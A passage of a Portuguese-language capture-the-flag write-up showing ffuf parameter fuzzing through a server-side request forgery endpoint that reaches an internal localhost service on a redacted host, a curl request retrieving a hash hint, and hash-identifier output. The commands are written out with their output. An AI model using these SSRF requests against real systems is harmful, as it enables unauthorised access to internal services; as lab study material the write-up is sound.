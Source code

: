Tudo retornando 200, dessa vez o tamanho da resposta a ser filtrado é 51:

```
$ ffuf -u https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode?FUZZ=1 -w ~/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 51


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode?FUZZ=1
 :: Wordlist         : FUZZ: /home/kali/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 51
________________________________________________

flag                    [Status: 200, Size: 61, Words: 7, Lines: 2, Duration: 11ms]
:: Progress: [6453/6453] :: Job [1/1] :: 3607 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Acessando o path com o parâmetro:

```
$ curl https://[redacted]/synchronize?url=http://127.0.0.1:8090/decode?flag=1

Come on.. be polite! Say 6050ce63e4bce6764cb34cac51fb44d1 xD
```

Identificando o tipo do hash:

```
$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 6050ce63e4bce6764cb34cac51fb44d1

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
```

[nmap]: https://nmap.org